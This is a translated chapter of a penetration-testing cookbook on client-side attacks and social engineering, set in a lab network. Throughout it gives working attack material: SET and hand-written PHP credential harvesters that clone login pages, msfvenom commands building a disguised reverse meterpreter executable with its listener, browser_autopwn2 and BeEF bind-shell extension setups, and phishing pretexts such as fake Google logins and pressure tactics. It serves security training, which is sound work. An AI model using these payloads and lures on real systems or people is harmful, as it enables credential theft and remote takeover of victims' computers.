# 第九章 客户端攻击和社会工程

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

我们目前所见的大部分技巧都尝试利用服务端的漏洞或设计缺陷，并访问它来从数据库中提取信息。有另外一种攻击，使用服务器来利用用户软件上的漏洞，或者尝试欺骗用户来做一些他们通常情况下不会做的事情，以便获得用户拥有的信息。这些攻击就叫做客户端攻击。

这一章中，我们会复查一些由攻击者使用，用于从客户端获得信息的技巧，通过社会工程、欺骗或利用软件漏洞。

虽然它并不和 Web 应用渗透测试特定相关，我们会涉及它们，因为大多数都是基于 web 的，并且都是非常常见的场景，其中我们在攻击客户端时，能够访问应用和服务器。所以，了解攻击者如何执行这类攻击，对于渗透测试者来说非常重要。

## 9.1 使用 SET 创建密码收集器

社会工程攻击可能被认为是客户端攻击的特殊形式。在这种攻击中，攻击者需要说服用户，相信攻击者是可信任的副本，并且有权接收用户拥有的一些信息。

SET 或社会工程工具包（`https://www.trustedsec.com/social-engineertoolkit/`）是一套工具，为执行针对人性的攻击而设计。这类攻击，包括网络钓鱼、邮件群发、SMS、伪造无线接入点、恶意网站、感染性媒体，以及其它。

这个秘籍中，我们会使用 SET 来创建密码收集器网页，并看看它如何工作，以及攻击者如何使用它来盗取用户密码。

### 操作步骤

1.  在 root 终端中输入下列命令：

    ```
    setoolkit
    ```
    
    
    
2.  在`set>`提示符中输入`1`（`Social-Engineering Attacks`）并按下回车。

3.  现在选择`Website Attack Vectors`（选项`2`）。

4.  从下面的菜单中，我们选择`Credential Harvester Attack Method`（选项`3`）。

5.  选择`Site Cloner `（选项`2`）。

6.  它会询问`IP address for the POST back in Harvester/Tabnabbing`。它的意思是收集到的证书打算发送到哪个 IP。这里，我们输入 Kali 主机在`vboxnet0`中的 IP `192.168.56.1`。

7.  下面，压脚询问要克隆的 URL，我们会从 vulnerable_vm 中克隆 Peruggia 的登录表单。输入` http://192.168.56.102/peruggia/index. php?action=login`。

8.  现在会开始克隆，之后你会被询问是否 SET 要开启 Apache 服务器，让我们这次选择`Yes`，输入`y`并按下回车。

    
    
9.  再次按下回车。

0.  让我们测试一下页面，访问` http://192.168.56.1/`。

    
    
    现在我们拥有原始登录页面的一份精确副本。
    
1.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

2.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```
    
3.  这里应该有名称为`harvester_{date and time}.txt `的文件。

4.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```
    
    
    
    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。
    
### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html `创建的`index.html`的代码，我们会发现下面的代码：

```html
<form action="http://192.168.56.1/post.php" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt `文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```php
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```

## 9.2 使用之前保存的页面来创建钓鱼网站

在之前的秘籍中，我们使用了 SET 来复制网站并使用它来收集密码。有时候，仅仅复制登录页面不会对高级用户生效，在正确输入密码并再次重定向登录页面时，它们可能会产生怀疑，或者会试着浏览页面中的其它链接。我们这样就会失去它们，因为它们会离开我们的页面而来到原始站点。

这个秘籍中，我们会使用我们在第三章“为 Wget 离线分析下载页面”秘籍中复制的页面，来构建更加详细的钓鱼网站，因为它几乎含有所有导航，并且会在捕获证书之后登陆原始站点。

### 准备

我们需要保存 Web 页面，遵循第三章“为 Wget 离线分析下载页面”秘籍。简单来说，可以通过下列命令来完成：

```
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/ 
```

之后，离线页面会储存在`bodgeit_offline `目录中。

### 操作步骤

1.  第一步是将下载的站点复制到 Kali 中 APache 的根目录。在 root 终端中：

    ```
    cp -r bodgeit_offline/192.168.56.102/bodgeit /var/www/html/ 
    ```
    
2.  之后我们启动 Apache 服务：

    ```
    service apache2 start 
    ```
    
3.  下面，我们需要更新我们的登录页面，使它重定向我们收集密码的脚本。打开`bodgeit `目录（`/ var/www/html/bodgeit`）中的`login.jsp`文件，并寻找下面的代码：

    ```html
    <h3>Login</h3> 
    Please enter your credentials: <br/><br/> 
    <form method="POST">
    ```
    
4.  现在，在表单标签中添加`action`来调用`post.php`：

    ```html
    <form method="POST" action="post.php">
    ```
    
5.  我们需要在` login.jsp `的相同目录下创建该文件，创建`post.php`，带有下列代码：

    ```php
    <?php  
    $file = 'passwords_C00kb00k.txt';  
    file_put_contents($file, print_r($_POST, true), FILE_APPEND);  
    $username=$_POST["username"];  
    $password=$_POST["password"];  
    $submit="Login"; ?> 
    <body onload="frm1.submit.click()"> 
    <form name="frm1" id="frm1" method="POST" 
    action="http://192.168.56.102/bodgeit/login.jsp"> 
    <input type="hidden" value="<?php echo $username;?>" name ="username"> 
    <input type="hidden" value="<?php echo $password;?>" name ="password"> 
    <input type="submit" value="<?php echo $submit;?>" name ="submit"> 
    </form> 
    </body>
    ```
    
6.  你可以看到，密码会保存到` passwords_C00kb00k.txt`。我们需要创建这个文件来设置合理的权限。在 root 终端中访问`/var/www/html/bodgeit `，并输入下列命令：

    ```
    touch passwords_C00kb00k.txt 
    chown www-data passwords_C00kb00k.txt
    ```
    
    要记住 Web 服务器运行在 www-data 用户下，所以我们需要使这个用户为文件的所有者，便于它可被 web 服务器进程写入。
    
7.  现在，是时候让受害者访问这个站点了，假设我们让用户访问了`http://192.168.56.1/bodgeit/login.jsp`，打开浏览器并访问它。

8.  使用一些有效用户信息填充登录表单，对于这个秘籍我们会使用`user@ mail.com/password`。

9.  点击`Login`。
    
    
    
    它看起来能正常工作，我们现在成功登录了` 192.168.56.102`。
    
0.  让我们检查密码文件，在终端中输入：

    ```
    cat passwords_C00kb00k.txt
    ```
    
    
    
    并且，我们得到它了。我们捕获了用户的密码，将它们重定向到正常页面并执行了登录。
    
### 工作原理

这个秘籍中，我们使用了站点副本来创建密码收集器，并使它更加可信，我们使脚本执行原始站点的登录。

在前三步中，我们简单设置了 Web 服务器和它要展示的文件。下面，我们创建了密码收集器脚本`post.php`：前两行和之前的秘籍相同，它接受所有 POST 参数并保存到文件中。

```php
$file = 'passwords_C00kb00k.txt';  
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

之后我们将每个参数储存到变量中：

```php
$username=$_POST["username"];  
$password=$_POST["password"];  
$submit="Login";
```

因为我们的登录不打算依赖于用户发送的正确值，我们设置`$submit="Login"`。下面，我们创建了 HTML 主题，它包含一个表单，在页面加载完毕后会自动发送`username`，`password`和`submit`值到原始站点。

```php
<body onload="frm1.submit.click()"> 
<form name="frm1" id="frm1" method="POST" 
action="http://192.168.56.102/bodgeit/login.jsp"> 
<input type="hidden" value="<?php echo $username;?>" name ="username"> 
<input type="hidden" value="<?php echo $password;?>" name ="password"> 
<input type="submit" value="<?php echo $submit;?>" name ="submit"> 
</form> 
</body>
```

要注意，`body `中的`onload`事件并不调用`frm1.submit() `而是` frm1.submit. click()`。这是因为当我们使用`submit`作为表单元素的名称时，表单中的`submit()`函数会被这个元素覆盖掉（这里是提交按钮）。我们并不打算修改按钮名称，因为它是原始站点需要的名称。所以我们使`submit`变成一个按钮，而不是隐藏字段，并使用它的`click`函数将值提交到原始站点。我们同时将表单中的字段值设置为我们之前用于储存用户数据的变量值。

## 9.3 使用 Metasploit 创建反向 shell 并捕获连接

当我们执行客户端攻击的时候，我们能够欺骗用户来执行程序，并使这些程序连接回控制端。

这个秘籍中，我们会了解如何使用 Metasploit 的 msfvenom 来创建可执行程序（反向 meterpreter shell），它会在执行时连接我们的 Kali 主机，并向我们提供用户计算机的控制。

### 操作步骤

1.  首先，我们要创建我们的 shell。在 Kali 中打开终端并执行下列命令：

    ```
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
    ```
    
    这会创建名为`cute_dolphin.exe`的文件，这是反向 meterpreter shell，反向意味着它会连接回我们，而不是监听我们的连接。
    
2.  下面，我们需要为我们“可爱的海豚”将要创建的连接建立监听器。在 MSFconsole 的终端中：

    ```
    use exploit/multi/handler 
    set payload windows/meterpreter/reverse_tcp 
    set lhost 192.168.56.1 set lport 4443 
    set ExitOnSession false 
    set AutorunScript post/windows/manage/smart_migrate 
    exploit -j -z 
    ```
    
    就像你看到的那样，LHOST 和 RPORT 是我们用于创建`exe`文件的东西。这是程序将要连接的 IP 地址和 TCP 端口。所以我们需要在这个 Kali 的网络接口和端口上监听。
    
3.  我们的 Kali 已准备就绪，现在是准备攻击用户的时候了，我们以 root 启动 Apache 服务并运行下列代码：

    ```
    service apache2 start
    ```
    
4.  之后，将恶意文件复制到 web 服务器文件夹内。

    ```
    cp cute_dolphin.exe /var/www/html/
    ```
    
5.  假设我们使用社会工程并使我们的受害者相信这个文件是需要执行来获得一些好处的东西。在 Windows 客户端虚拟机内，访问` http://192.168.56.1/cute_dolphin.exe`。

6.  你会被询问下载还是运行这个文件，出于测试目的，选择`Run`（运行），再被询问时，再次选择`Run`。

7.  现在，在 Kali MSFCONSOLE 的终端中，你会看到建立好的连接：

    

8.  我们在后台运行连接处理器（`-j -z`选项）。让我们检查我们的活动会话：

    ```
    sessions
    ```
    
    
    
9.  如果我们打算和会话交互，可以使用`-i`选项，带有会话的编号：

    ```
    sessions -i 1 
    ```
    
0.  我们会看到 meterpreter 的提示符。现在，我们可以请求被入侵系统的信息。

    ```
    sysinfo
    ```
    
    
    
1.  或者执行系统 shell。

    ```
    shell
    ```
    
    

### 工作原理

Msfvenom 帮助的我们从 Metasploit 大量列表中创建载荷，并且将它们集成到许多语言的源代码中，或者创建脚本和可执行文件。就像我们在这个秘籍所做的那样。我们这里所使用的参数是所使用的载荷（`windows/ meterpreter/reverse_tcp`）、连接回来所需的主机和端口（LHOST 和 RPORT），以及输出格式（`-f exe`）。将标准输出重定向到文件来将它保存为` cute_dolphin.exe`。

Metasploit 的 exploit/multi/handler 是个载荷处理器，这里我们将其用于监听连接。在连接建立之后，它执行了 meterpreter 载荷。

Meterpreter 是增强型的 Metasploit shell。它包含用于嗅探受害者网络，用于将其作为入口来访问本地网络，或者用于执行权限提升和密码提取的模块，以及其它渗透测试中的实用工具。

## 9.4 使用 Metasploit 的 browser_autpwn2 攻击客户端

Metasploit 框架包含客户端利用的庞大集合，许多都为利用浏览器中的已知漏洞而设计。其中有一个模块能够检测客户端所使用的浏览器版本，并挑选最好的利用工具来触发漏洞。这个模块是 browser_autpwn 和 browser_autpwn2，后者是最新版本。

在这个秘籍中，我们会使用 browser_autpwn2 执行攻击，并将其配置好来让目标访问。

### 操作步骤

1.  启动 MSFCONSOLE。

2.  我们会使用 browser_autpwn2 （BAP2）。

    ```
    use auxiliary/server/browser_autopwn2 
    ```

3.  让我们看一看它拥有什么配置项。

    ```
    show options
    ```
    
    
    
4.  我们将 Kali 设为接受连接的主机。

    ```
    set SRVHOST 192.168.56.1
    ```
    
5.  之后，我们为接受响应的服务器创建目录`/kittens`。

    ```
    set URIPATH /kittens
    ```
    
6.  这个模块会触发大量利用，包含一些 Android 上的。假设我们的攻击目标是 PC，并不打算依赖于 Adobe Flash 的授权。我们会排除 Android 和 Flash 的利用。

    ```
    set EXCLUDE_PATTERN android|adobe_flash
    ```
    
7.  我们也可以设置模块的高级选项（使用`show advanced`来查看高级选项的完整列表），来向我们展示每个加载的利用的独立路径，并且更加详细。

    ```
    set ShowExploitList true 
    set VERBOSE true
    ```
    
    高级选项也允许我们为每个平台（Windows、Unix 和 Android）选择载荷和它的参数，例如 LHOST 和 RPORT。
    
8.  现在，我们已经为执行利用做好了准备。

    ```
    run
    ```
    
    
    
    如果我们打算触发特定的利用，我们可以在服务器的 URL 后面使用`Path`值。例如，如果我们打算触发`firefox_svg_plugin`，我们将`http://192.168.56.1/PWrmfJApkwWsf`发送给受害者，路径在每次模块运行时会随机生成。
    
9.  在客户端的浏览器中，如果我们访问` http://192.168.56.1/kittens`，我们会看到 BAP2 立即响应，并且尝试所有合适的利用，当它成功执行某个之后，它会在后台创建会话：

    
    
### 工作原理

Browser Autopwn 会建立带有主页的 Web 服务器，并使用 JavaScript 来识别客户端运行了什么软件，并基于它选择合适的利用来尝试。

这个秘籍中，我们设置了 Kali 主机，使其为`kittens`目录的请求监听 8080 端口。我们所配置的其它请求是：

+   `EXCLUDE_PATTERN`：告诉 BAP2 排除（不加载） Android 浏览器或 Flash 插件的利用。

+   `ShowExploitList`：展示 BAP2 运行时已加载的利用。

+   `VERBOSE`：告诉 BPA2 显示更多信息，关于加载了什么，加载到哪里，每一步都发生了什么。

之后，我们只需要运行模块并使一些用户访问我们的`/kittens `站点。

## 9.5 使用 BeEF 攻击

在之前的章节中，我们看到了 BeEF（浏览器利用框架）能够做什么。这个秘籍中，我们会使用它来发送而已浏览器扩展，当它执行时，会向我们提供绑定到系统的远程 shell。

### 准备

我们需要为这个秘籍在 Windows 客户端安装 Firefox。

### 操作步骤

1.  开启 BeEF 服务。在 root 终端下，输入下列命令：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
2.  我们会使用 BeEF 的高级演示页面来勾住我们的客户端。在 Windows 客户端 VM 中，打开 FIrefox 并浏览`http://192.168.56.1:3000/demos/butcher/index.html`。

3.  现在，登录 BeEF 的面板（`http://127.0.0.1:3000/ui/panel`）。我们必须在这里查看新勾住的浏览器。

    
    
4.  选项被勾住的 FIrefox 并访问` Current Browser | Commands | Social Engineering | Firefox Extension (Bindshell)`。

    
    
    由于它被标为橙色（命令模块对目标工作，但是可能对用户可见），我们可能需要利用社会工程来使用户接受扩展。
    
5.  我们需要发送叫做`HTML5 Rendering Enhancements`的扩展给用户，它会通过 1337 端口打开 shell。点击`Execute`来加载攻击。

6.  在客户端，Firefox 会询问许可来安装插件并接受它。

7.  之后，如果 Windows 防火墙打开了，它会询问许可来让插件访问网络，选择`Allow access `。

    
    
    最后两个步骤高度依赖于社会工程，说服用户信任这个插件值得安装和授权。
    
8.  现在，我们应该拥有了等待连接 1337 端口的的客户端。在 Kali 中打开终端并连接到它（我们这里是 192.168.56.102）。

    ```
    nc 192.168.56.102 1337
    ```
    
    
    
    现在我们就连接到了客户端并能够在里面执行命令。
    
### 工作原理

一旦客户端被 BeEF 勾住，它就会像浏览器发送请求（通过`hook.js`）来下载扩展。一旦下载完成，就取决于用户是否安装。

像之前所说的那样，这个攻击高度依赖用户来完成关键步骤，这取决于我们通过社会工程手段说服用户，使之相信必须安装扩展。这可以通过页面上的文本来完成，比如说解锁一些浏览器的实用功能非常必要。

在用户安装扩展之后，我们只需要使用 Netcat 来连接端口 1337，并开始执行命令。

## 9.6 诱使用户访问我们的仿造站点

每次社会工程攻击的成功依赖于攻击者说服用户的能力，以及用户遵循攻击者指令的意愿。这个秘籍是一系列攻击者所使用的情景和技巧，用于利用它们的优势使用户更加信任并抓住它们。

这一节中，我们会看到一些在前面那些安全评估中能够生效的攻击。它们针对拥有一定等级的安全意识，并且不会陷入“银行账户更新”骗局的用户。

1.  做你自己的作业：如果是个钓鱼攻击，做一次关于目标的彻底调查：社会网络、论坛、博客、以及任何能够告诉你目标信息的信息员。Maltego 包含在 Kali 中，可能是用于这个任务的最佳工具。之后基于这些编造一个借口（伪造的故事）或者一个攻击主题。

    我们发现了一些客户的雇员，他们在 Facebook 主页上发送大量图片、视频和文本。我们从她的页面上收集了一些内容并构建了幻灯片演示，它也包含客户电脑的远程执行利用，我们将它通过邮件发送她。

2.  创建争论：如果目标是个某领域中的意见领袖，使用他自己的名言，使它们对你说的东西感兴趣，这也会有帮助。

    我们被雇佣来执行某个金融公司的渗透测试，协约条款包括了社会工程。我们的目标是个经济和金融圈内的知名人士。他在知名的杂志上撰稿，做讲座，出现在经济新闻上，以及其它。我们的团队做了一些关于他的研究，并从经济杂志的网站上获得了一篇文章。这篇文章包含他的公司（我们的客户）的电子邮件。我们寻找了关于文章的更多信息，并发现其它站点上的一些评论和引用。我们利用这些杜撰了一个电子邮件，说我们有一些关于文章的评论，在消息中给出摘要，并使用短链接来链接到 Google Drive 的一个文档上。
    
    短链接让用户访问伪造的 Google 登录页面，它由我们控制，并允许我们获取他同事的邮件和密码。
    
3.  说出你是谁：好吧，这并不准确。如果你说“我是个安全研究员，在你的系统中发现了一些东西”，可能对于开发者和系统管理员是个很好的钩子。

    在其它场景中，我们需要明确公司中的社会工程师和系统管理员。首先，我们不能在网上发现任何关于他的有用信息，但是可以在公司的网站上发现一些漏洞。我们使用它来向我们的目标发送邮件，并说我们在公司的服务器上发现了一些重要的漏洞，我们可以帮你修复它们，附上一张图作为证据，以及Google Drive 文档的链接（另一个伪造登录页面）。
    
4.  固执与逼迫：有时候你不会在首次尝试的时候就收到答复，这时总是要分析结果 -- 目标是否点击了链接，目标是否提交了伪造信息，以及判断是否要做出第二次尝试。

    我们没有从系统管理员那里收到该场景的答复，页面也没有人浏览。所以我们发送第二个邮件，带有 PDF “完整报告”，并说如果我们没有收到答复，就公布漏洞。于是我们收到了答复。
    
5.  使你自己更加可信：尝试接受一些你模仿的人的修辞，并提供一些真实信息。如果你向公司发送邮件，使用公司的 Logo，为你的伪造站点获得一个免费的`.tk`或`.co.nf`域名，花费一些时间来设计或正确复制目标站点，以及其它。

    盗取信用卡数据的人所使用的技巧非常通用，它们使用信用卡号码的一部分，后面带有星号，发送“你需要更新你的信息”邮件（的变体）。

    正常信息会这样写：“你的信用卡 `**** **** **** 3241` 的信息”，但是伪造信息会这样写：“你的信用卡 `4916 **** **** ****` 的信息”。要知道前四位（4916）是 Visa 信用卡的标准。
    
### 工作原理

让一个人打开来自完全陌生的人的邮件，阅读它，并点击它包含的链接，以及提供页面上的所需信息，在尼日利亚王子诈骗横行的今天，可能是一件非常困难的事情。成功社会工程攻击的关键是创造一种感觉，让受害者觉得攻击者在为它做一些好事或必要的事情，也要创造一种急迫感，即用户必须快速回复否则会丢失重要的机会。

### 更多

客户端攻击也可以用于被入侵服务器上的提权。如果你获得了服务器的访问，但是没有继续行动的空间，你可能需要在你的攻击主机上开启而已服务器，并在目标上浏览它。所以你可以利用其它类型的漏洞，并执行特权命令。
